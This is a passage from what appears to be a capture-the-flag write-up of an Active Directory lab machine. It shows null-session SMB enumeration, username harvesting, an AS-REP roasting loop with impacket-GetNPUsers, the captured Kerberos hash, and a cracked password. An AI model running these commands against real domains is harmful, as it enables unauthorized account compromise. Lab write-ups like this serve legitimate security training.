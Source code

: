 I perform additional `dig` queries but cannot find more information. Both of those subdomains resolve to the same `10.10.10.192` IP address, and have no additional DNS entries associated with them. `ldapsearch` is equally fruitless.

I run `smbmap -H 10.10.10.192 -smb2support -u null` and notice that I have `READ ONLY` access to the `profiles$` share as the `null` user.

```text
	ADMIN$                                            	NO ACCESS	Remote Admin
	C$                                                	NO ACCESS	Default share
	forensic                                          	NO ACCESS	Forensic / Audit share.
	IPC$                                              	READ ONLY	Remote IPC
	NETLOGON                                          	NO ACCESS	Logon server share
	profiles$                                         	READ ONLY
	SYSVOL                                            	NO ACCESS	Logon server share
```

Listing out the directories in `profiles$` shows a very long list of usernames in the following format below:

```text
	dr--r--r--                0 Wed Jun  3 11:47:11 2020	AAlleni
	dr--r--r--                0 Wed Jun  3 11:47:11 2020	ABarteski
	dr--r--r--                0 Wed Jun  3 11:47:11 2020	ABekesz
```

With `awk '{print $8}'` I seperate out the directory name column into a list of usernames. I run `impacket-GetNPUsers` to determine if any of the users in that list as vulnerable to ASREPRoasting, which one is; `support`. For some reason, I wasn't able to consistently get the user's hash when running the command with input from a file containing the list of usernames, so I had to use a bash loop to run the command for each individual username.

```text
for user in `cat loot/usernames.txt`;do impacket-GetNPUsers -dc-ip 10.10.10.192 -no-pass blackfield.local/$user | grep krb5 >> loot/gnpusers-individual.txt;done

cat loot/gnpusers-individual.txt

$krb5asrep$23$support@BLACKFIELD.LOCAL:dcb745b9d0e547a226bc8c47b0b0b996$5a0ef4b375e441bfc14b762bfa8df3fc766bc2df43f98c2d705cf191cd4ae10580f4d691c602a74f1d96aa6d4a2d3c9cbfa1d13a1959934727fd93ca6a5be5fec7a03c822a815bbd8dd540e0971b82fc221fffa51fc3f696c113abd48916e314f2dd7c465b28e77bfc1fcf671146cfdbed2fe2d24b63283e0ed7dae6480f2ec4deb1717a36cee37fd59916db796123ff3832bbf0597526caf5721e3e0a2ee8636aeb4832fd74c96ca9e4c5b4e0c0738b396bf0faf032023d29896c7bef3f3f06785a9b15ba152bc8b19ef0171ce2fe9dcbb4e98cd44789097be9d39d5cfbed3e0b0444317af7378a3d732d5c1bd713ae2cc054cc
```

I use `hashcat` and the `rockyou.txt` wordlist to recover the password `#00<sup>BlackKnight</sup>` for the user `support`.

# Initial Access as `support`

With access as `support`, I list the available SMB shares again and now have `READ ONLY` to `NETLOGON`, and `SYSVOL`. A recursive directory listing of NETLOGON shows that it's empty, while SYSVOL contains the following:
